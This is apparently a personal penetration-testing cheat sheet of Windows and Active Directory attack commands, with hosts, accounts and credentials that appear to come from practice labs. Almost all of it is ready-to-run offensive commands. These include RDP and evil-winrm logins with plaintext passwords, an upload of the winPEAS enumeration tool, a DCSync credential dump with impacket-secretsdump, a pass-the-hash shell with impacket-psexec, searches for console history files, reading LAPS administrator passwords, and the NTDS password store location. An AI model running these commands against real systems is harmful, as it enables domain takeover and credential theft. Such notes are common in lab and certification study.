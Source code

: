 # Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

#### Evil-WinRm

connect to system with eveil-winrm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
command to upload files through win-rm
```
upload ~/windows_programs/winPEASany.exe
```

#### DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

#### Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

##### look for Console_Host_History file 
```
Get-ChildItem -Path C:\ -Include ConsoleHost_history*.txt -File -Recurse -ErrorAction SilentlyContinue
```

#### If in the LAPS reader group : 
```
Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd
```
Domain passwords location: ```C:\Windows\NTDS\```
